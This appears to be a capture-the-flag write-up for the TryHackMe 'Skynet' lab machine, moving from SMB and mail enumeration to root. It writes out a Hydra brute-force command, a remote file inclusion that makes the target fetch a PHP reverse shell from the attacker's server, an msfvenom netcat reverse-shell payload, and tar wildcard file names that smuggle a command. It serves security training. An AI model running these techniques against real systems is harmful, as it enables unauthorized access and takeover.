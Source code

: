 # TryHackMe Skynet

A vulnerable Terminator themed Linux machine.

---

## Nmap Results

![nmap](nmap.png)

We Have a few ports open:

> `Port 22 - OpenSSH 7.2p2`
> `Port 80 - Apache httpd 2.4.18`
> `Port 110 - Dovecot pop3d`
> `Port 139 - Samba smbd 3.X - 4.X`
> `Port 143 - Dovecot imapd`
> `Port 445 - Samba smbd 4.3.11-Ubuntu`

---

## Website

Let's take a look at the website.
![website](website.png)

Running dirsearch we have found a few directories of interest:
![dirsearch](dirsearch.png)

`/admin` we don't have access to, `/squirrelmail` looks interesting though.

![squirrel](squirrel.png)

We don't have any credentials.

---

## SMB

Enumerating SMB, looks like we have read access to a share called `anonymous`

![smb](smbmap.png)

Let's connect to the share with anonymous login and have a look around.
`smbclient //<target IP>/anonymous -U "" -N`

![smbclient](smbclient.png)
Let's get attention.txt, the `books` directory seems to be useless, let's look into `logs`.

![logs](logs.png)

Contents of attention.txt

![attention](attention.png)

Contents of `log1.txt` file
>cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator

The rest seem to be empty.

So it looks like we have a potential username of `milesdyson` from `attention.txt` and a list of passwords, let's see if we can't crack his password.

---

## Squirrelmail

### Method 1

Using Hydra:
`hydra -l milesdyson -P log1.txt <target IP> http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."`

Great! hydra found a password:
`[80][http-post-form] host: 10.10.27.165   login: milesdyson   password: cyborg007haloterminator`

### Method 2
We could have also used BurpSuite for this with the sniper function and using the `log1.txt` as the payload.

![burp](burp.png)

Capture your login attempt with Burp and send it to intruder. You want to add your payload marker in the `secretkey` spot. The line should look like this: `login_username=§milesdyson§&secretkey=§§§&js_autodetect_results=§1§&just_logged_in=§1§`

Once you have done that, you can go to the `Payloads` tab and under `Payload Options` click `Load...` and select the `log1.txt` file.

You just need to look for a length that's different from the rest:
![burppass](burppass.png)

---

## Mail

Great so now we have a username and password so let's try them out.`milesdyson:cyborg007haloterminator`

![admin](admin.png)

Looks like we are in. We have 3 emails in the inbox and the first on is titled `Samba Password reset`, so let's look at that.
The email reads:
>`We have changed your smb password after system malfunction. Password: )s{A&2Z=F^n_E.B`\`

---

## SMB as milesdyson

Great so now we can connect to smb as miledyson with this new password.

login using `smbclient`:
`smbclient //<target IP>/milesdyson -U milesdyson`

>`cd notes`
`get important.txt`

`important.txt` reads:
>`1. Add features to beta CMS /45kra24zxs28v3yd`
`2. Work on T-800 Model 101 blueprints`
`3. Spend more time with my wife`

---

## Getting into the CMS

 I don't think any of us would've found this in any wordlists. `/45kra24zxs28v3yd`.

The directory brought us here:

![45](45.png)

So let's run dirsearch on this as well:

![dirsearch2](dirsearch2.png)

Dirsearch found `/administrator`, let's navigate to that and check it out.

This must be the CMS:

![cuppa](cuppa.png)

Running searchsploit on cuppa, results in a local/remote file inclusion exploit.
`searchsploit cuppa`

![searchsploit](searchsploit.png)

You can read the file directly with `searchsploit -x exploits/php/webapps/25971.txt` or get the file with the `-m` flag. up to you. 

Anyways, we can append `alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` and see `passwd` file. Or... according the exploit file, we can upload our own shell with `alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?`

---

## Getting a shell

Great! So with this knowledge, we can set up our php reverse shell:[PHP shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and our listener, and setup our python server `python3 -m http.server`

The command we can use `curl http://<target IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<host IP>:8000/php-reverse-shell.php`

This is like using `wget` for uploading your shell then navigating to were your shell is. So once you execute this and you set up your listener correctly with the port, you used in your PHP shell.

Now we have a shell:

![shell](user.png)

User flag is in `/home/milesdyson`

---

## Gaining Root

So if you've done [CMESS](https://tryhackme.com/room/cmess) from TryHackMe, you should be familiar with this exploit. We'll be using the wild card exploit.

When we `wget` LinEnum onto the box we can see a cronjob running:

![cron](cron.png)

the first part means that it updates every minute. So we'll refer back to [this](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). Looking into `backup.sh`, we can see he `cd` into `/var/www/html` to do his thing. So this is what we'll have to do later for this to work.

Contents of `backup.sh`
>`#!/bin/bash`
`cd /var/www/html`
`tar cf /home/milesdyson/backups/backup.tgz *`

We just have to make our payload with `msfvenom`
`msfvenom -p cmd/unix/reverse_netcat lhost=<host IP> lport=8888 R`

Don't forget to setup your listener with your payload port

Then on target box `cd /var/www/html` and run:
>`echo "payload from msfvenom" > shell.sh`
`echo "" > "--checkpoint-action=exec=sh shell.sh"`
`echo "" > --checkpoint=1`

Wait a minute and we should have root:

![root](root.png)

Root flag is in `/root`.